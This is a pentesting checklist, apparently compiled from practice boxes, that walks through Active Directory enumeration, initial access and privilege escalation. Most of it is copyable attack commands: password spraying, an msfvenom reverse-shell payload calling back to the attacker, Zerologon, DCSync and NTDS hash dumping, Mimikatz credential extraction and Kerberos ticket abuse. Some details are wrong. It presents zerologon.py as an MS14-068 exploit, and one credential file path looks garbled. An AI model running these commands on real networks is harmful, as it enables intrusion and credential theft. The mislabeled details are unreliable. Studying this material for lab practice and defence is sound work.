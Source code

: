 
### **Comprehensive Checklist and Workflow for Enumeration, Foothold, and Privilege Escalation**

Below is a unified checklist and methodology derived from the tactics, techniques, and commands used in the 13 boxes.

---

### **1. Enumeration Checklist**

#### **Network Scanning**:

- Use `Nmap` for comprehensive port and service scanning:
    
    ```bash
    nmap -sC -sV -p- -oA nmap_scan <target_ip>
    ```
    

#### **Active Directory (AD) Enumeration**:

- **LDAP Enumeration**:
    - Query LDAP for users, groups, and permissions:
        
        ```bash
        ldapsearch -h <ip_address> -p 389 -x -b "dc=domain,dc=local"
        ```
        
- **Kerberos Enumeration**:
    - Identify Kerberos users without pre-authentication:
        
        ```bash
        GetNPUsers.py <domain> -no-pass -usersfile users.txt -dc-ip <dc_ip>
        ```
        
- **BloodHound**:
    - Map AD permissions and attack paths:
        
        ```bash
        bloodhound-python -d <domain> -u <username> -p <password> -dc <dc_ip>
        ```
        

#### **Service-Specific Enumeration**:

- **SMB Enumeration**:
    - List shares and accessible files:
        
        ```bash
        smbclient -L //<target_ip> -N
        smbmap -H <target_ip>
        rpcclient -U "" <ip_address>
        ```
        
- **SQL Enumeration**:
    - Extract database details and credentials:
        
        ```bash
        sqlcmd -S <server_ip> -U <username> -P <password>
        ```
        

#### **Web Enumeration**:

- Discover directories and hidden endpoints:
    
    ```bash
    gobuster dir -u http://<target_ip> -w <wordlist>
    dirbuster
    ```
    
- Identify potential injection points (SQLi, LFI, etc.).

#### **OSINT and Metadata**:

- Search for leaked credentials:
    - Use breached databases like `Dehashed`.
    - Analyze metadata in documents with tools like `Exiftool`.

---

### **2. Foothold Checklist**

#### **Credential-Based Access**:

- **Password Spraying**:
    - Use known usernames and common passwords:
        
        ```bash
        python3 kerbrute.py -d <domain_name> -user users.txt -password passwords.txt
        ```
        
- **WinRM**:
    - Authenticate using credentials:
        
        ```bash
        evil-winrm -i <target_ip> -u <username> -p <password>
        ```
        

#### **Exploitation**:

- **Vulnerabilities**:
    - Exploit Kerberos vulnerabilities (e.g., MS14-068):
        
        ```bash
        zerologon.py <dc_ip> <hostname>
        ```
        
- **Custom Payloads**:
    - Generate malicious payloads for RCE:
        
        ```bash
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f exe -o payload.exe
        ```
        

#### **File-Based Attacks**:

- **SCF/SMB Attacks**:
    - Drop `.scf` files to capture NTLM hashes.

#### **Reverse Engineering**:

- Analyze `.NET` assemblies using `ILSpy` or `dnSpy`.

---

### **3. Privilege Escalation Checklist**

#### **AD Privilege Escalation**:

- **DCSync Attack**:
    - Extract domain credentials:
        
        ```bash
        secretsdump.py <user>:<password>@<dc_ip>
        ```
        
- **Kerberos Ticketing**:
    - Request TGT or manipulate tickets:
        
        ```bash
        Rubeus.exe s4u /user:<target_user> /rc4:<hash>
        ```
        
- **GenericAll/Write Permissions**:
    - Abuse permissions for privilege escalation.

#### **Service-Specific Privilege Escalation**:

- **SeBackup Privilege**:
    - Backup sensitive files and extract hashes:
        
        ```bash
        wbadmin start backup -backuptarget:\\<path>\ -include:c:\Windows\ntds\ntds.dit -quiet
        secretsdump.py -ntds ntds.dit -system system.hive LOCAL
        ```
        
- **Server Operators Abuse**:
    - Deploy malicious services for escalation.

#### **Credential Dumping**:

- **Mimikatz**:
    - Extract credentials from memory:
        
        ```bash
        sekurlsa::logonpasswords
        ```
        
- **Azure AD Connect**:
    - Extract stored credentials:
        
        ```powershell
        Get-Content "C:\Program Files\Microsoft Azure AD Sync\Bin\miconfig"
        ```
        

#### **Lateral Movement**:

- Pivot between systems using `WinRM` or pass-the-hash techniques.

---

### **Unified Workflow**

#### **Step 1: Enumeration**

- Begin with `Nmap` to identify services.
- Use LDAP, SMB, or SQL enumeration based on findings.
- Perform AD enumeration to identify attack paths.

#### **Step 2: Foothold**

- Exploit weak credentials using password spraying or leaked credentials.
- Test identified vulnerabilities (e.g., SMB, Kerberos).
- Use tools like `Evil-winrm` to establish initial access.

#### **Step 3: Privilege Escalation**

- Target AD misconfigurations or abuse privileges (e.g., SeBackup).
- Use Kerberos ticketing attacks or DCSync to gain elevated access.
- Extract credentials and pivot to high-value systems.

---

### **Key Things to Look For**

1. **Weak or Default Credentials**:
    - Test for common passwords across multiple accounts.
2. **Misconfigured Services**:
    - Look for SMB shares, AD permissions, and exposed databases.
3. **Vulnerable AD Configurations**:
    - Focus on Kerberos, SeBackup, and GenericAll permissions.

This checklist and methodology provide a structured and efficient approach to external pentesting, encompassing enumeration, foothold strategies, and privilege escalation.

